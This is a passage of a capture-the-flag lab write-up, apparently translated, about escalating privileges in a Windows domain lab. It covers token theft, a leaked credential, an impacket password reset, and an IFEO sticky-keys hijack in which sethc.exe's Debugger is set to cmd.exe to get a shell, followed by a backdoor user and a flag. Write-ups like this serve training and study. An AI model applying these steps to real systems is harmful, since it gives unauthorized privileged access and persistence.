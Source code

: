 ````sql
# Stealing a specified process
steel_token pid
# Return to the previous token
rev2self
```

!
[](./images/8.png)

I found that there is a shared folder. Read it and there is a sensitive file inside. After viewing, I get a credential and a prompt.

```
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#

Do you know how to hijack Image?
```

![](./images/9.png)

The prompt indicates that IFEO hijacking is to be used, that is, mirror hijacking. When trying to log in, it prompts the user's password has expired. Use `smbpasswd` to modify the password.

![](./images/10.png)

```bash
python3 smbpasswd.py xiaorang.lab/Aldrich:'Ald@rLMWuy7Z!#'@172.22.8.15 -newpass 'H3rmesk1t@666'
```

![](./images/11.png)

I found that I could only use `172.22.8.15` to remotely modify my password, but when I log in, I showed that I had no permissions, so I could only log in to `172.22.8.46`.

![](./images/12.png)

But only the permissions of ordinary users, combined with the prompts, IFEO hijacking is used to modify the registry.

```powershell
get-acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *
```

I found that `NT AUTHORITY\Authenticated Users` can modify the registry, that is, all users who log in with their account and password can modify the registry.

![](./images/14.png)

Take advantage of this property, modify the registry and use sticky keys to hit `IFEO` hijack.

```powershell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe"
```

![](./images/13.png)

The Start menu locks the user. After turning on the sticky key, press `shift` five times and get `Shell`.

![](./images/15.png)

Continue to add the backdoor user, then go up remotely, and read `flag02.txt` in the `C:\Users\Administrator\flag` directory: `flag{daf4521b-3434-4d3a-aa9b-71e53e0c6079}`.
````
